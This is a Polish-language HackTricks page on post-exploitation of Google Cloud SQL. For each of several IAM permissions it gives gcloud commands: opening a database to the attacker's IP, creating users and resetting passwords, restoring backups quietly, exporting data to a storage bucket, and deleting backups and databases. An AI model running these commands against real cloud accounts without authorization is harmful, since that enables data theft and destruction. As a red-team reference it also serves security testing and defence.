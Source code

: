 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Aby uzyskać więcej informacji na temat Cloud SQL, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Aby połączyć się z bazami danych, **wystarczy mieć dostęp do portu bazy danych** oraz znać **nazwa użytkownika** i **hasło**, nie ma żadnych wymagań dotyczących IAM. Zatem łatwym sposobem na uzyskanie dostępu, zakładając, że baza danych ma publiczny adres IP, jest zaktualizowanie dozwolonych sieci i **zezwolenie na dostęp z własnego adresu IP**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Możliwe jest również użycie **`--no-backup`** do **zakłócenia kopii zapasowych** bazy danych.

Ponieważ to są wymagania, nie jestem do końca pewien, jakie są uprawnienia **`cloudsql.instances.connect`** i **`cloudsql.instances.login`**. Jeśli wiesz, wyślij PR!

### `cloudsql.users.list`

Uzyskaj **listę wszystkich użytkowników** bazy danych:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

To uprawnienie pozwala na **utworzenie nowego użytkownika wewnątrz** bazy danych:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

To uprawnienie pozwala na **aktualizację użytkownika wewnątrz** bazy danych. Na przykład, możesz zmienić jego hasło:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Kopie zapasowe mogą zawierać **stare wrażliwe informacje**, więc warto je sprawdzić.\
**Przywróć kopię zapasową** w bazie danych:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Aby zrobić to w bardziej ukryty sposób, zaleca się utworzenie nowej instancji SQL i odzyskanie danych tam zamiast w aktualnie działających bazach danych.

### `cloudsql.backupRuns.delete`

To uprawnienie pozwala na usuwanie kopii zapasowych:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Eksportuj bazę danych** do Cloud Storage Bucket, aby mieć do niej dostęp stamtąd:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importuj bazę danych** (nadpisz) z Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Usuń bazę danych z instancji db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
